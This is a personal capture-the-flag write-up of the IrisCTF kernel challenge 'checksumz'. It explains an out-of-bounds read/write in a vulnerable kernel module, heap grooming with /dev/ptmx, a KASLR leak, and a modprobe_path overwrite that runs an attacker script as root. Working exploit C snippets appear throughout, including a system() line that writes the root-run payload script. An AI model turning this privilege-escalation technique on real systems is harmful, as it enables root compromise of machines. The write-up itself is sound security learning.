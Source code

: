 # checksumz

Alright so this was my first kernel challenge that I have solved without looking at a writeup or anything and it was honestly really fun. I will say that I got some help from my buddy [Alex](https://github.com/SolarDebris) but he was very good about not giving me the answer and just kind of guiding me/giving me resources to look into so that way I wasn't dependent and could get the most out of this challenge.

So to get started, I installed a fork of [gef](https://github.com/bata24/gef) that would help me debug the kernel better (as you will see later on) since the challenge had an `attach.gdb` script that could be attached with `sudo gdb -x attach.gdb`.

### challenge
Alright now to the challenge, and thankfully, the challenge authors gave us the source code for the vulnerable kernel module. In the source code you can see that they changed up the functionality of `read`, `write`, and `lseek`. The bug was actually not that hard to find since basically all the program does is read and write from the location of where `buffer->state + buffer->pos` is. The `buffer->state` variable is the 512 byte buffer that we are writing to, while `buffer->pos` is the offset that we are writing to, modified by `lseek`. Here is the struct used for `buffer`:

```c
struct checksum_buffer {
	loff_t pos;
	char state[512];
	size_t size;
	size_t read;
	char* name;
	uint32_t s1;
	uint32_t s2;
};
```

And here are the vulnerable lines of code in both read and write:

```c
// read
ssize_t copied = copy_to_iter(buffer->state + buffer->pos, min(bytes, 256), to);

// write
ssize_t copied = copy_from_iter(buffer->state + buffer->pos, min(bytes, 16), from);
```

Now with this in mind, that means that we can set `buffer->pos` to be whatever offset you want and then you basically have unlimited read and write. The only thing stopping you is the fact that `lseek` makes sure that `pos` is less than the `size` value. 

```c
if (buffer->pos >= buffer->size)
    buffer->pos = buffer->size - 1;
```

Now this won't matter though since you still have a 15 byte overwrite if you set `pos` to be 511 (`size` is 512) and then you can overwrite size so you can create any offset you want.

```c
void overwrite_size() {
  lseek(fd, 504, SEEK_SET);

  char buf[16] = "AAAAAAAABBBBBBBB";
  write(fd, buf, 16);
}
```

Okay great! Now that we have unlimited read and write we can get a dump of the memory!

```
[*] GETTING MEMORY DUMP
0x4141414141414141 0x4242424242424242 
2: 0x0 0xff18dfa982303c00 
4: 0x1 0x0 
6: 0x0 0x0 
8: 0x0 0x0 
10: 0x0 0x0 
12: 0x0 0x0 
14: 0x0 0x0 
16: 0x0 0x0 
18: 0x0 0x0 
20: 0x0 0x0 
22: 0x0 0x0 
24: 0x0 0x0 
26: 0x0 0x0 
28: 0x0 0x0 
30: 0x0 0x0 
32: 0x6200000001 0x0 
...
```

Now with this in mind, we have to be mindful of where we are, in this case, we are in the `kmalloc-1024` heap (you can calculate this by just looking at the struct). So now, how do we get a kernel base leak since `kaslr` and `fg-kaslr` are both enabled? Well in this case, all I did was groom the heap by opening `/dev/ptmx` 200 times since it has a kernel address inside the heap. I found this out on [this article here](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628). 

```c
int main() {
    int tmp = open("/dev/ptmx", O_RDWR);

    for (int i = 0; i < 100; i++) {
      tmp = open("/dev/ptmx", O_RDWR);
    }

    fd = open("/dev/checksumz", O_RDWR);

    for (int i = 0; i < 100; i++) {
      tmp = open("/dev/ptmx", O_RDWR);
    }
    ...
}
```

Now with this in mind, we can look at the memory dump and see a kernel address in index 36:

```
[*] GETTING MEMORY DUMP
0x4141414141414141 0x4242424242424242 
2: 0x0 0xff2aa7adc1f19400 
4: 0x1 0x0 
6: 0x0 0x0 
8: 0x0 0x0 
10: 0x0 0x0 
12: 0x0 0x0 
14: 0x0 0x0 
16: 0x0 0x0 
18: 0x0 0x0 
20: 0x0 0x0 
22: 0x0 0x0 
24: 0x0 0x0 
26: 0x0 0x0 
28: 0x0 0x0 
30: 0x0 0x0 
32: 0x6500000001 0x0 
34: 0xff2aa7adc194ec00 0xff2aa7adc1eaae00 
36: 0xffffffffabe89360 0xff2aa7adc1d8e5e0 
```

And this is how I got the base:

```c
void get_kbase() {
  kbase = mem[36] - 0x1289360;

  printf("[*] KBASE LEAK: 0x%llx\n", kbase);
}
```

Also you can see the kernel base by attaching gdb and running `kbase`:

```
gef> kbase
[+] Wait for memory scan
kernel text:   0xffffffff81000000-0xffffffff82200000 (0x1200000 bytes)
kernel rodata: 0xffffffff82200000-0xffffffff828dd000 (0x6dd000 bytes)
kernel data:   0xffffffff828dd000-0xffffffff834f6000 (0xc19000 bytes)
```

So now that I got the kernel base, my next target is the `modprobe path`. The reason why is because `modprobe` is a program that is used for a lot of things file related, and one of them is in case the computer reads a file with unknown magic bytes. So if I change the `modprobe path` and then try and run a binary with unknown magic bytes, then the kernel will then run the program at the path that I wrote. 

Okay cool, but how would I overwrite the path? Well luckily, the `checksum_buffer` struct has a pointer to a `name` character buffer and the `ioctl` allows you to change the name. So if I change the `name` pointer to the address of `modprobe path` and then call the ioctl telling it to let me change the name variable, then I will get control of the `modprobe path`.

```c
void overwrite_modprobepath() {
  lseek(fd, 528, SEEK_SET);

  unsigned long long modprobe = kbase + 0x1b3f100;
  write(fd, &modprobe, 8);
   
  char new_path[] = "/tmp/balls";
  ioctl(fd, CHECKSUMZ_IOCTL_RENAME, new_path);
}
```

```
gef> kmagic
[+] Wait for memory scan
kernel_base                                0xffffffff81000000 (0x1200000 bytes)
---------------------------------- Legend ----------------------------------
Symbol                                     Addr               Perm  (+Offset    ) -> Value             
-------------------------------- Credential --------------------------------
commit_creds                               0xffffffff810b98a0 [R-X] (+0x000b98a0) -> 0x4c655441fa1e0ff3
prepare_kernel_cred                        0xffffffff810b9d90 [R-X] (+0x000b9d90) -> 0x85485355fa1e0ff3
init_cred                                  0xffffffff82a52ae0 [RW-] (+0x01a52ae0) -> 0x0000000000000004
__sys_setuid                               0xffffffff810a0d20 [R-X] (+0x000a0d20) -> 0x54415541001f0f66
init_task                                  0xffffffff82a0c940 [RW-] (+0x01a0c940) -> 0x0000000000004000
------------------------------ Usermode helper ------------------------------
call_usermodehelper                        0xffffffff810a4780 [R-X] (+0x000a4780) -> 0x4101f983fa1e0ff3
run_cmd                                             Not found
modprobe_path                              0xffffffff82b3f100 [RW-] (+0x01b3f100) -> /tmp/balls <==============
...
```

Now that I have done that, all I have to do is create a shell script that will write the flag into `/tmp` and then call an unknown binary, then I will be able to get the flag!

```c
puts("[*] OVERWRITING MOD PROBE PATH");
overwrite_modprobepath();

puts("[*] CREATING MODPROBE SCRIPT");
system("echo -en '#!/bin/sh\ncat /dev/vda > /tmp/flag' > /tmp/balls");
system("chmod +x /tmp/balls");

puts("[*] FINISHED OVERWRITING MOD PROBE PATH, NOW RUNNING BINARY WITH MODIFIED MAGIC BYTES");
system("/home/user/magic");
```

```
~ $ cat /tmp/flag
irisctf{fakeflag}~ $ 
~ $ 
```

Overall I learned a lot from this challenge and also now I feel a lot more comfortable and less intimidated when doing kernel challenges. I can't wait to try more of these kinds of challenges!


